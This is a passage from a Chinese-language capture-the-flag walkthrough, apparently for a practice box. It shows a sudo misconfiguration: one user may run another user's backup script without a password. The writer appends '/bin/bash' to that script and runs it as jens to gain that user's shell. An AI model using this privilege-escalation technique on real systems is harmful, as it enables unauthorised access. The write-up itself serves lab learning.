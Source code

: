 
再次执行sudo -l

![img](./assets/wps920.jpg) 

 

 

发现gramham可以在不需要密码的情况下执行/home/jens/backups.sh

 

查看该脚本内容

 

![img](./assets/wps921.jpg) 

 

是对web进行打包

 

往backups.sh中写入"/bin/bash"（给jens获取一个shell权限）

```
echo "/bin/bash" >> backups.sh
```

![img](./assets/wps922.jpg) 

 

 

 

以jens身份执行该文件

```
sudo -u jens ./backups.sh
```

![img](./assets/wps923.jpg) 

 

再次执行sudo -l
